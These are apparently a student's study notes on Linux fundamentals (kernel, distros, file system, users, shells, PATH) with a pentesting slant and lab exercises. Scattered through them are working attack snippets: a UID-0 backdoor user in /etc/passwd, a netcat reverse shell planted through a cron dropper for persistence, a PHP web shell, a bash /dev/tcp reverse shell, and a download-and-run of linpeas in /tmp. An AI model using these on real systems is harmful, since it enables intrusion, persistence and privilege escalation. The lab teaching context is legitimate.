# Linux Fundamentals & File System

---

## What is Linux?

> **Linux is an open-source operating system kernel created by Linus Torvalds. It manages hardware resources and lets software run. Linux distributions build a full operating system around that kernel.**

### Kernel = the Core of the OS

> A **kernel** is the central software that talks between **hardware** (CPU, RAM, disk, network card) and **programs/users**.

It manages:
- ✅ CPU scheduling
- ✅ Memory / RAM
- ✅ Filesystems
- ✅ Processes
- ✅ Drivers
- ✅ Networking
- ✅ Permissions

```
Hardware ⇄ Kernel ⇄ Programs
```

**Example:** When you type `ping google.com`, the kernel handles the network card, packet sending, and receiving response. When you type `cat file.txt`, the kernel reads the disk and gives the file to the program.

### Linux is NOT a UI

Linux itself is **not** a desktop UI, terminal app, or file explorer. The UI layer is added on top via **desktop environments**:
- GNOME
- KDE Plasma
- Xfce (Kali often uses this)

```
Linux kernel → system tools → desktop UI
```

### What is a Linux Distribution?

A **distro** = Linux kernel + bundled software.

**Example — Kali Linux includes:**
- Linux kernel, `apt`, `zsh`, Xfce, Nmap, Burp, Metasploit

That full package = the operating system.

---

## How Commands Work (Behind the Scenes)

### Step-by-Step: What Happens When You Type `ls`

#### 1. Shell Waits for Input

Prompt appears:
```
kali@kali:~$
```

You type `ls` and press Enter.

#### 2. Shell Parses the Command

```
ls -la /etc
```
becomes:
- command = `ls`
- option = `-la`
- argument = `/etc`

#### 3. Shell Searches PATH

Linux searches directories listed in **PATH**:
```bash
echo $PATH
# Example: /usr/local/bin:/usr/bin:/bin
```

Shell checks in order:
```
/usr/local/bin/ls → /usr/bin/ls → /bin/ls
```

Finds: `/usr/bin/ls`

Verify with:
```bash
which ls
```

#### 4. Kernel Loads and Runs the Program

The shell tells the kernel: "Run `/usr/bin/ls`." Kernel loads the executable, gives CPU time, and provides terminal access.

#### 5. `ls` Reads the Directory via System Calls

`ls` cannot read the disk directly — it asks the kernel using **system calls**:

```
ls → kernel → disk → kernel → ls → screen
```

Internally:
```c
opendir("/home/kali")   // "Kernel, open this directory"
readdir()                // "Give me next item"
```

Kernel reads filesystem metadata (inodes) and sends names back.

#### 6. `ls` Formats and Prints Output

Plain `ls` prints file names. `ls -l` requests additional info: permissions, owner, size, timestamps.

#### 7. Program Exits, Shell Waits Again

```
kali@kali:~$
```

#### Summary Flow

```
You → shell → find ls → kernel runs it → ls reads files → terminal shows output
```

Same idea applies to `nmap`, `john`, `vim`, `python3`, etc.

### Watching System Calls with `strace`

```bash
strace ls
```

Key system calls observed:

| System Call | Meaning |
|---|---|
| `execve("/usr/bin/ls", ...)` | Bash asks kernel to run `/usr/bin/ls` |
| `openat(AT_FDCWD, ".", O_RDONLY\|O_DIRECTORY) = 3` | Open current folder, get handle #3 |
| `getdents64(3, ... /* 35 entries */)` | Read directory entries (the filenames) |
| `write(1, "Desktop Documents ...")` | Write output to terminal (stdout = 1) |
| `exit_group(0)` | Program finished successfully |

The `getdents64(...)` line is the exact moment `ls` receives the filenames.

Works with other commands too:
```bash
strace cat file.txt
strace nmap 10.10.10.10
strace ping 8.8.8.8
```

---

## Linux Distributions

```
Linux kernel = engine
Distros      = different cars using that engine
```

### Distro Families

#### 1. Debian-based

Built from Debian. Package manager: `apt`

**Examples:** Kali Linux, Ubuntu, Linux Mint, Parrot OS

```bash
sudo apt update
sudo apt install apache2
```

**Best for:** Beginners, servers, pentesting, daily desktop

> **Kali is Debian-based** — it was built on Debian and still uses many Debian components underneath.

```
Debian
├── Ubuntu
└── Kali
```

#### 2. Red Hat–based

Built from Red Hat Enterprise Linux. Package manager: `dnf` (older: `yum`)

**Examples:** Fedora, Rocky Linux, AlmaLinux, RHEL

```bash
sudo dnf install httpd
```

**Best for:** Enterprise servers, corporate environments

```
Red Hat
├── Fedora
├── Rocky Linux
└── AlmaLinux
```

#### 3. Arch-based

Built from Arch Linux. Package manager: `pacman`

**Examples:** Arch Linux, Manjaro, BlackArch

```bash
sudo pacman -S nmap
```

**Best for:** Advanced users, custom systems

#### 4. Security / Pentesting Distros

Made for cybersecurity. Preloaded with Nmap, Burp, Metasploit, Wireshark.

**Examples:** Kali Linux, Parrot OS, BlackArch

**Best for:** VAPT, OSCP, labs

#### 5. Server-focused Distros

Optimized for stability, often no GUI.

**Examples:** Ubuntu Server, Rocky Linux, Debian Server

**Used for:** web servers, DNS, databases, SIEM

#### 6. Lightweight Distros

For older hardware / low RAM.

**Examples:** Lubuntu, Puppy Linux, Alpine Linux

### Quick Comparison Table

| Type | Examples | Package Manager | Use |
|---|---|---|---|
| Debian | Kali, Ubuntu | `apt` | beginner + pentest |
| Red Hat | Fedora, Rocky | `dnf` | enterprise |
| Arch | Arch, Manjaro | `pacman` | advanced |
| Security | Kali, BlackArch | varies | cybersecurity |
| Server | Debian Server | varies | hosting |
| Lightweight | Alpine | varies | old hardware |

### Key Differences Between Debian & Red Hat Families

| Aspect | Debian-based | Red Hat-based |
|---|---|---|
| Package manager | `apt` | `dnf` |
| Package format | `.deb` | `.rpm` |
| Apache service name | `apache2` | `httpd` |
| Apache config path | `/etc/apache2/` | `/etc/httpd/` |
| Philosophy | Stable, beginner-friendly | Enterprise, corporate |

**What stays the same across all distros:**
- `/etc/hosts`, `systemctl`, bash, users/groups, permissions, SSH, Linux kernel
- Core commands: `ls`, `pwd`, `cd`, `cat`, `ip a`

### What Makes Distros Different (Same Kernel, Different OS)

The kernel only handles CPU, RAM, processes, drivers, networking, filesystem. It does **not** decide:
- Package manager
- Desktop theme
- Preinstalled tools
- Repositories
- Release style (stable vs rolling)

These differences create the "different types" of Linux.

---

## Linus Torvalds — History

In **1991**, a 21-year-old student in Finland wanted a Unix-like OS for his PC. He posted online:

> "just a hobby, won't be big and professional…"

That "hobby" became Linux. Today Linux runs:
- Most web servers & cloud infrastructure (AWS/GCP)
- Supercomputers
- Android phones (uses Linux kernel)
- Routers & IoT devices
- Cybersecurity distros like Kali Linux

He also created **Git** — which powers GitHub. Two foundational technologies from one person.

---

## Linux File System Structure

```bash
cd /    # Go to root directory (top of filesystem)
```

**Windows equivalent:** `cd C:\`





```
/
├── bin      Essential commands
├── boot     Boot files
├── dev      Device files
├── etc      Configuration files
├── home     User home directories
├── lib      Shared libraries
├── media    Auto-mounted removable devices
├── mnt      Manual temporary mounts
├── opt      Optional/third-party software
├── proc     Kernel/system info (virtual)
├── root     Root user's home directory
├── run      Runtime data (cleared on reboot)
├── sbin     System admin commands
├── tmp      Temporary files (world-writable)
├── usr      Installed software & shared resources
└── var      Variable/changing data (logs, web)
```

### Directory Details

#### `/bin` — Essential Commands

Essential binaries needed during boot:
```
/bin/ls, /bin/cat, /bin/bash, /bin/cp
```

On modern Kali/Debian: `/bin → /usr/bin` (symbolic link)

#### `/boot` — Boot Files

```
/boot/vmlinuz, /boot/initrd.img, /boot/grub
```

Used when Linux starts.

#### `/dev` — Device Files

Linux treats **devices as files**:
```
/dev/sda      — hard disk
/dev/null     — black hole (output disappears)
/dev/tty      — terminal
/dev/random   — random number generator
```

```bash
echo hello > /dev/null    # Output disappears
```

USB drive appears as `/dev/sdb`

#### `/etc` — System Configuration

```
/etc/hosts
/etc/passwd
/etc/shadow
/etc/apache2/
/etc/ssh/sshd_config
```


## Critical System Files: `/etc/passwd`

The `/etc/passwd` file is a **real configuration file** that the system depends on — it is **not** just a text file.

```bash
nano /etc/passwd
```

**Example entries:**

```
_gvm:x:118:121::/var/lib/openvas:/usr/sbin/nologin
kali:x:1000:1000::/home/kali:/usr/bin/zsh
_dhcpcd:x:972:972:DHCP Client Daemon:/var/lib/dhcpcd:/sbin/nologin
```

### Demo: What Happens If You Delete User Entries

Removing the last lines (including `kali` and `root` entries) from `/etc/passwd`:



Testing commands after the edit:



Running `whoami` or `sudo su` fails because the users no longer exist in the system:


> [!CAUTION]
> `/etc/passwd` is an active configuration file that directly affects the machine. Always **take a snapshot before** making dangerous changes so you can revert.

#### `/home` — User Home Directories

```
/home/kali
/home/akshit
```

Personal files: notes, downloads, scripts, SSH keys.

```bash
cd /home/kali
cd ~           # Shortcut to home folder
```

#### `/lib` — Shared Libraries

Like Windows DLLs. Programs need these to run.

```
/lib, /usr/lib
```

#### `/media` — Auto-mounted Removable Devices

```
/media/kali/USB
/media/cdrom
```

#### `/mnt` — Manual Temporary Mounts

```bash
sudo mount /dev/sdb1 /mnt
sudo mount -t cifs ...
```

> `/media` = auto-mounted removable devices
> `/mnt` = manual temporary mounts

#### `/opt` — Optional Software

Third-party software installed separately:
```
/opt/google/chrome
/opt/BurpSuite
/opt/customtool
```

#### `/proc` — Kernel/System Info (Virtual Filesystem)

```bash
cat /proc/cpuinfo     # CPU info
cat /proc/meminfo     # RAM info
cat /proc/version     # Kernel version
```



#### `/root` — Root User's Home

```
Normal user:  /home/kali
Root user:    /root
```

Like the Administrator's profile.

#### `/run` — Runtime Data

Temporary runtime data, cleared after reboot:
```
/run/systemd, /run/user, /run/lock
```

#### `/sbin` — System Admin Binaries

```
/sbin/reboot, /sbin/fsck, /sbin/ip
```

```
bin  = normal commands
sbin = system/admin commands
```

#### `/tmp` — Temporary Files

Everyone can write here. Often cleaned automatically.

Permissions: `drwxrwxrwt`

```bash
cd /tmp
echo hello > test.txt
```

**Why `/tmp` matters for pentesting:**
- World-writable — works when other directories block you
- Common place to download and run tools on a target
- Programs automatically store temp files here

**Example — pentesting workflow on target:**
```bash
cd /tmp
wget http://10.10.10.5/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

#### `/usr` — Installed Software & Shared Resources

**Not** "user" — holds programs, libraries, docs, shared resources.

```
/usr
├── bin      → /usr/bin/nmap, /usr/bin/python3, /usr/bin/git
├── lib      → shared libraries
├── share    → documentation, icons, wordlists
├── local    → manually installed software
└── sbin     → system admin tools
```

```bash
which nmap
# /usr/bin/nmap
```

#### `/var` — Variable Data

Files that **change often**: logs, web content, caches.

```
/var/log/            — system logs
/var/www/html/       — Apache web content
/var/cache/          — cached data
/var/tmp/            — persistent temp files
```

Apache website: `/var/www/html/index.html`
Apache logs: `/var/log/apache2/`

### `/home` vs `/usr` Summary

> **`/home` = your personal stuff**
> **`/usr` = system-installed programs and shared files**

### Quick Cheat Sheet

| Folder | Meaning |
|---|---|
| `/bin` | essential commands |
| `/boot` | boot files |
| `/dev` | device files |
| `/etc` | config files |
| `/home` | user files |
| `/lib` | libraries |
| `/media` | removable devices |
| `/mnt` | temporary mounts |
| `/opt` | optional software |
| `/proc` | kernel/system info |
| `/root` | root user home |
| `/run` | runtime data |
| `/sbin` | admin commands |
| `/tmp` | temporary files |
| `/usr` | installed software |
| `/var` | changing data/logs/web |

### Important Folders to Remember

`/bin` (or `/usr/bin`), `/etc`, `/root`, `/home`, `/usr`, `/tmp`, `/var`

---

## Linux User Types

### 3 Types of Users

1. **Root** — superuser / administrator (UID 0)
2. **Normal user** — regular employees, can have restricted access
3. **Service user** — accounts that run services (e.g., `mysql`, `www-data`, `apache`)

### `/etc/passwd` — User Account File

```bash
cat /etc/passwd
```

#### Format

```
username:password:UID:GID:comment:home:shell
```

#### Example — Normal User (`kali`)

```
kali:x:1000:1000::/home/kali:/usr/bin/zsh
```

| Field | Value | Meaning |
|---|---|---|
| Username | `kali` | account name |
| Password | `x` | stored in `/etc/shadow` |
| UID | `1000` | first normal user |
| GID | `1000` | primary group |
| Comment | (empty) | GECOS field — full name/notes |
| Home | `/home/kali` | personal directory |
| Shell | `/usr/bin/zsh` | default login shell |

```bash
id kali     # uid=1000(kali)
groups kali
```

**UID conventions:**
```
0     = root
1000  = first normal user
1001  = next user
```

#### Example — Root User

```
root:x:0:0:root:/root:/usr/bin/zsh
```

| Field | Value | Meaning |
|---|---|---|
| Username | `root` | superuser / administrator |
| UID | `0` | **UID 0 = admin privileges** |
| GID | `0` | root group |
| Home | `/root` | root's home (not `/home/root`) |
| Shell | `/usr/bin/zsh` | Z shell |

```bash
id root     # uid=0(root)
```

Root can: install packages, edit system files, add users, shut down system, access almost everything.

#### Example — Service User (`www-data`)

```
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

| Field | Value | Meaning |
|---|---|---|
| Username | `www-data` | web server account |
| UID | `33` | system user ID |
| Home | `/var/www` | where website files live |
| Shell | `/usr/sbin/nologin` | **cannot log in interactively** |

**Why use `www-data` instead of root?**
If Apache ran as root and got hacked → attacker becomes root. Instead, Apache runs as `www-data` → attacker gets limited permissions.

In pentesting, after exploiting a web server:
```bash
whoami
# www-data     ← low-privileged service account
```
Then **privilege escalation** begins.

### Adding Users via `/etc/passwd` (Lab Exercise)

#### Step 1: Generate a Password Hash

```bash
openssl passwd oscp
# Output: $1$4Qg9Gabh$uPjiXoe35JL0dR.uBZD8R.
```

`openssl passwd` creates a hashed password (does not change Linux password directly).

#### Step 2: Edit `/etc/passwd`

```bash
nano /etc/passwd
```

Add this line at the end:
```
oscp:$1$4Qg9Gabh$uPjiXoe35JL0dR.uBZD8R.:1000:1000:this is a comment:/:/bin/bash
```





> Setting UID to `1000` (same as kali) means you log in with kali's identity.

#### Step 3: Privilege Escalation via UID Change

Change UID and GID to `0` (root):
```
oscp:$1$4Qg9Gabh$uPjiXoe35JL0dR.uBZD8R.:0:0:this is a comment:/:/bin/bash
```



Now logging in as `oscp` gives root access:



### Adding Users via Command Line

```bash
adduser oscp        # Creates user with prompts (leave fields blank, press Enter)
su oscp             # Switch user ("substitute user")
```



New user's home folder is created:
```bash
ls /home
```



> If a user has no home folder, use `/tmp` as a workspace (with only the user's level of rights).

### `sudo` — Super User Do

> `sudo` = **S**uper **U**ser **DO** — "Do this command as the superuser (root)"

```
su   = substitute user
sudo = super user do
```

---

## `/etc/shadow` — Password Hashes

```bash
cat /etc/shadow
```



#### Format

```
username:hash:lastchange:min:max:warn:inactive:expire:reserved
```

#### Example

```
kali:$y$j9T$t40mB0E41xt4E1lNwEGix1$uxI/W4.NhSvzduXBHFW8maWHEXXZ1Va4FoTi4K4u896:20532:0:99999:7:::
```

| Field | Value | Meaning |
|---|---|---|
| Username | `kali` | account name |
| Hash algorithm | `$y$` | **yescrypt** (modern, harder to crack) |
| Parameters | `j9T` | cost/work factor |
| Salt | `t40mB0E41xt4E1lNwEGix1` | random value (ensures same passwords produce different hashes) |
| Hash | `uxI/W4.NhSvz...` | actual password hash |
| Last changed | `20532` | days since Jan 1, 1970 |
| Min days | `0` | can change immediately |
| Max days | `99999` | practically never expires |
| Warn | `7` | warn 7 days before expiry |

#### Hash Algorithm Prefixes

```
$1$ = MD5
$5$ = SHA-256
$6$ = SHA-512
$y$ = yescrypt (modern Debian/Kali)
```

#### Password Hashing Concept

Linux doesn't store plaintext passwords. It stores:
```
$6$randomsalt$encryptedvalue
```

Login process: you type password → Linux hashes it → compares to stored hash → if match → login.

> **Hash ≠ encryption.** Hash is **one-way**. Easy to verify, hard to reverse.

For pentesting, the hash tells you:
- Hash type (choose correct cracking mode)
- Salt
- Hash value

Then use **Hashcat** or **John the Ripper** to crack.

---

## Cron Jobs — Scheduled Tasks

```bash
crontab -e     # Edit current user's cron jobs
```



**Cron format:**
```
minute(m) hour(h) day-of-month(dom) month(mon) day-of-week(dow) command
```

Using `* * * * *` = run every minute.



### Lab: Persistent Reverse Shell via Cron

#### Step 1: Set Up Cron Job

Add to crontab: `* * * * * /tmp/mal.sh` (runs `/tmp/mal.sh` every minute)

#### Step 2: Generate Reverse Shell Payload

Get your IP:
```bash
ip a
```



Generate payload from https://www.revshells.com/:



```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.60.128 4444 >/tmp/f
```

#### Step 3: Create the Dropper Script

```bash
nano testmal.sh
```

```bash
#!/bin/bash
echo "* * * * *       /tmp/mal.sh" >> /tmp/crontab.GRLE1q/crontab
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.60.128 4444 >/tmp/f" >> /tmp/mal.sh
chmod +x /tmp/mal.sh
```

#### Step 4: Start Listener & Execute

```bash
nc -nvlp 4444           # Start listener in another tab
chmod +x testmal.sh
./testmal.sh             # Creates mal.sh and adds cron job
```

After 1 minute → reverse shell received:



Even after closing (`Ctrl+C`) and restarting listener → shell returns after 1 minute (persistence via cron):



---

## Linux Security vs Windows

> Linux doesn't come with a single built-in antivirus like Windows Defender. Instead, security is distributed across multiple mechanisms.

### Linux Security Layers

#### 1. File Permissions

```
-rwxr-x---
```

Controls who can read, write, and execute. Regular users can't modify critical system files.

#### 2. Root vs Normal User

Malware running as a normal user has less access than malware running as root.

#### 3. Firewall

```bash
sudo ufw status     # Uncomplicated Firewall
```

Other options: `iptables`, `nftables`

#### 4. Security Updates

```bash
sudo apt update
sudo apt upgrade
```

#### 5. Optional Antivirus (ClamAV)

```bash
sudo apt install clamav
clamscan file.txt
```

### Comparison

| Feature | Windows | Linux |
|---|---|---|
| Built-in AV | Defender | usually none |
| Firewall | Defender Firewall | ufw / iptables |
| Permissions | yes | very strong |
| Updates | Windows Update | apt |
| Optional AV | Defender | ClamAV |

> **Windows = centralized security with Defender**
> **Linux = permissions + updates + firewall + optional AV tools**

**Why Kali doesn't ship AV:** it's made for pentesting — users download tools, run exploits, test malware in labs. Real-time AV would interfere. Focus is on permissions, updates, controlled environments, and VMs/snapshots.

Linux **can** absolutely be attacked: malicious scripts, vulnerable services, weak SSH passwords, bad permissions, kernel exploits.

---

## Web Server Basics

### Default Web Root

```bash
cd /var/www/html
```



If a web server is running, it picks up files from here.

### Starting Apache

```bash
systemctl start apache2
```

Browse to `http://localhost`:



### Web Shell vs Reverse Shell

#### Web Shell

A malicious script on a web server that lets you run commands **through the browser**:

```php
<?php system($_GET['cmd']); ?>
```

Save as `shell.php`, then access:
```
http://target/shell.php?cmd=whoami
```

Output in browser: `www-data`

```
Browser → website → command executes → output returns
```

#### Reverse Shell

Target machine connects **back to your machine** and gives you a shell:

**Attacker (Kali) listens:**
```bash
nc -lvnp 4444
```

**Target runs:**
```bash
bash -i >& /dev/tcp/10.10.14.5/4444 0>&1
```

You get:
```
www-data@victim:/var/www/html$
```

```
Victim ─────────► Your Kali listener
```

#### Common Attack Chain

1. Upload web shell → `shell.php`
2. Use browser → `?cmd=whoami`
3. Trigger reverse shell command → `bash -i >& /dev/tcp/ATTACKER/4444 0>&1`
4. Catch on Kali → `nc -lvnp 4444`

> **Web shell = command execution through website/browser**
> **Reverse shell = target opens connection back to your terminal**

---

## Processes

```bash
ps -aux     # Show all processes running in background
```



```bash
cat /proc/version    # Kernel version info
```

---

## PATH & Environment Variables

### How Commands are Found

When you type a command, the system checks the **PATH** environment variable to find the binary:

```bash
echo $PATH
# /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

It iterates through each folder in order until it finds the command. If not found → `command not found`.



**If you break PATH, commands stop working:**



> This is the same reason we add Python (or other tools) to PATH — so we can call them from anywhere.

### Where PATH is Stored

PATH is an **environment variable in memory**, loaded from config files at login:

**System-wide (all users):**
```
/etc/environment
/etc/profile
/etc/zsh/zprofile
```

```bash
cat /etc/environment
# PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
```

**User-specific (Kali uses zsh):**
```
~/.zshrc
~/.zprofile
```

```bash
cat ~/.zshrc
# May contain: export PATH=$PATH:/opt/mytools
```

**Flow:**
```
/etc/environment + ~/.zshrc → loaded at login → PATH in memory → shell finds commands
```

### `cat` vs `echo` vs `$`

| Command | Purpose | Example |
|---|---|---|
| `cat` | Read/show file contents | `cat /etc/hosts` |
| `echo` | Print text/variables to screen | `echo hello` |
| `$` | Access variable value | `echo $USER` → `kali` |

**`cat` examples:**
```bash
cat /etc/hosts              # Show file contents
cat a.txt b.txt             # Combine and show both files
```

**`echo` examples:**
```bash
echo hello                  # Print text
echo $USER                  # Print variable value → kali
echo hello > test.txt       # Write to file
```

**`$` examples:**
```bash
echo $HOME                  # → /home/kali
echo $(whoami)              # Command substitution → kali
```

### Setting Variables

**Local variable** (current terminal only):
```bash
a=123
echo $a     # 123
```



**Global/exported variable** (available in child processes and new terminals):
```bash
export ip=1.1.1.1
```

> Local variables disappear when you close the terminal. Use `export` for global scope.

**Practical use** — set target IP once, use everywhere:



**Permanent global variable** — add to `~/.zshrc`:



---

## Shells: `sh`, `bash`, `zsh`

> All are **shells** — programs that let you type commands and talk to Linux.

```
You → Shell → Linux kernel
```

### `sh` — Bourne Shell (Basic)

Oldest/most basic. Very portable, fewer features.

```bash
sh              # Start sh
sh script.sh    # Run script with sh
```

Good for: basic scripts, portability, works everywhere.

### `bash` — Bourne Again Shell

Standard Linux shell. Name is a pun: "Bourne **Again** Shell."

```bash
bash            # Start bash
```

Prompt: `kali@kali:~$`

Features:
- ✅ Command history (`↑` key)
- ✅ Tab autocomplete (`apt ins<Tab>`)
- ✅ Scripting (`if`, `for`, `while`)

Common in servers, scripts, tutorials.

### `zsh` — Z Shell

Kali's default. Bash + extra usability.

```bash
echo $SHELL     # → /usr/bin/zsh
```

Prompt: `┌──(kali㉿kali)-[~/Desktop] └─$`

Features:
- ✅ Smarter autocomplete
- ✅ Nicer prompt styling
- ✅ Plugin support (autosuggestions, syntax highlighting)

### Comparison

| Shell  | Meaning                    | Use             |
| ------ | -------------------------- | --------------- |
| `sh`   | basic shell                | compatibility   |
| `bash` | standard Linux shell       | scripts / admin |
| `zsh`  | advanced interactive shell | Kali daily use  |

```
sh   = old basic bicycle
bash = reliable motorcycle
zsh  = motorcycle + dashboard + GPS
```

### Checking Shells

```bash
echo $0         # Current shell (sh, bash, or zsh)
echo $SHELL     # Default login shell
cat /etc/shells # All available shells on the machine
```



### Shell Shebang Lines

Scripts specify which shell to use:
```bash
#!/bin/bash     # Run with bash
#!/bin/sh       # Run with sh
```

### Shell Configuration Files

**View/edit zsh config:**
```bash
nano ~/.zshrc
```

**View/edit bash config:**
```bash
nano ~/.bashrc
```



#### Auto-execute Commands on Shell Start

Add commands to the end of `~/.zshrc`:



Example: added `whoami` and `ls` — these run every time a new terminal opens:





> You can also add `sudo su` to auto-escalate, or set persistent global variables here.

---

## Aliases — Command Shortcuts

Create a shortcut for any command:

```bash
alias p="ping 1.1.1.1"
```

Now typing `p` runs `ping 1.1.1.1`:



**Practical example with variables:**
```bash
alias n='nmap -p- -sC --min-rate 10000 $ip'
ip=1.1.1.1
```



**View all aliases:**
```bash
alias
```



**Remove an alias:**
```bash
unalias p
```



> To make aliases permanent, add them to `~/.zshrc`.

---

## Important Kali Paths for Pentesting

### Wordlists

```bash
cd /usr/share/wordlists
```



- `dirb/` — wordlists for web pentesting
- `rockyou.txt` — bruteforce password list
- Can also download **SecLists** for more

### Windows Pentesting Resources

```bash
cd /usr/share/windows-resources
```



```bash
cd /usr/share/windows-binaries
```



### Nmap Scripts

```bash
cd /usr/share/nmap/scripts
```



### General Shared Resources

```bash
cd /usr/share/
```



